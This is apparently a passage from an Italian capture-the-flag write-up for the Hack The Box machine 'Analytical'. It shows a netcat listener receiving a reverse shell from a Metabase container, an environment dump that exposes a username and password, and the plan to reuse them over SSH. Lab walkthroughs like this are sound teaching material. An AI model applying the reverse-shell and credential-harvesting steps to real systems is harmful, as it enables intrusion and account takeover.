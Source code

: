 otteniamo cosi la nostra revshell

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.233] 38360
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
501f3d513028:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
501f3d513028:/$
```

è una shell abbastanza limitata, come possiamo vedere con il comando ambiente `env`

```bash
501f3d513028:/$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=501f3d513028
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
501f3d513028:/$
```

possiamo vedere che che abbiamo un nome utente `metalytics` e una password `An4lytics_ds20223#` Usiamole per collegarci tramite ssh
